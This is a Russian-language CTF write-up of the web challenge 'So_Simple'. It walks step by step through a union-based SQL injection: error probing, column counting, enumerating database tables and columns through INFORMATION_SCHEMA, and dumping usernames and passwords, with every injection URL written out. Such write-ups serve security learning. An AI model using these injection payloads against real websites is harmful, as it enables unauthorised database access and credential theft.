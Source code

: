 # So_Simple (173 points, 300 solves)

> "Try Harder" may be You get flag manually
>
> Try id as parameter
>
> http://web.darkarmy.xyz:30001

Аналогично [прошлому](../Simple_SQL) заданию, я перебирал различные `id` и [8](http://web.darkarmy.xyz:30001/?id=8)
казалось бы приводит к успеху...

![](https://i.imgur.com/jyrPOI7.png)

Однако это ненастоящий флаг. Неужели пришло время SQL-инъекций? Проверяем [http://web.darkarmy.xyz:30001/?id=8'](http://web.darkarmy.xyz:30001/?id=8%27):

![](https://i.imgur.com/AyIrrjj.png)

Спасибо ребятам за жёлтый цвет текста на белом фоне, даже выделить пришлось. Но мы получили ошибку! Значит можно 
разгуляться.

Я с подобным типом атак знаком слабо, но помню, что была интересная с `UNION`. В интернете нашёл очень хорошую
[статью](https://codeby.net/threads/sql-injection-nachalo-union-based.68720/) с примерами и просто следовал ей. Кратко 
опишу шаги:
1. Находим количество колонок: 
[http://web.darkarmy.xyz:30001/?id=8' UNION SELECT 1 -- 123](http://web.darkarmy.xyz:30001/?id=8%27%20UNION%20SELECT%201%20--%20123)
```
 The used SELECT statements have a different number of columns 
```
[http://web.darkarmy.xyz:30001/?id=8' UNION SELECT 1,2,3 -- 123](http://web.darkarmy.xyz:30001/?id=8%27%20UNION%20SELECT%201,2,3%20--%20123) -
нет ошибки.
2. Находим имя БД (меняем id на несуществующий, чтобы убрать результаты запроса до `UNION`):
[http://web.darkarmy.xyz:30001/?id=-8' UNION SELECT 1,database(),3 -- 123](http://web.darkarmy.xyz:30001/?id=-8%27%20UNION%20SELECT%201,database(),3%20--%20123)
```
Your Login name:id14831952_security
```
3. Смотрим, какие есть таблицы:
[http://web.darkarmy.xyz:30001/?id=-8' UNION SELECT 1,table_name,3 from INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=database() limit 0,1 -- -](http://web.darkarmy.xyz:30001/?id=-8%27%20UNION%20SELECT%201,table_name,3%20from%20INFORMATION_SCHEMA.TABLES%20WHERE%20TABLE_SCHEMA=database()%20limit%200,1%20--%20-)
Меняя значения в `LIMIT`, выясняем, что есть следующие таблицы: `emails`, `referers`, `uagents`, `users`.
Последняя выглядит интересно, надо посмотреть, что в ней.
4. Смотрим, какие есть колонки:
[http://web.darkarmy.xyz:30001/?id=-8' UNION SELECT 1,column_name,3 from information_schema.columns where table_name='users' limit 0,1 -- -](http://web.darkarmy.xyz:30001/?id=-8%27%20UNION%20SELECT%201,column_name,3%20from%20information_schema.columns%20where%20table_name=%27users%27%20limit%200,1%20--%20-)
Аналогично находим: `id`, `username`, `password`, `USER`, `CURRENT_CONNECTIONS`, `TOTAL_CONNECTIONS`.
Посмотрим, что лежит в имени и пароле.
5. Смотрим данные в `username` и `password`:
[http://web.darkarmy.xyz:30001/?id=-8' union select 1,password,username from users limit 8,1 -- -](http://web.darkarmy.xyz:30001/?id=-8%27%20union%20select%201,password,username%20from%20users%20limit%208,1%20--%20-)

![](https://i.imgur.com/EH3AaTN.png)

Бинго!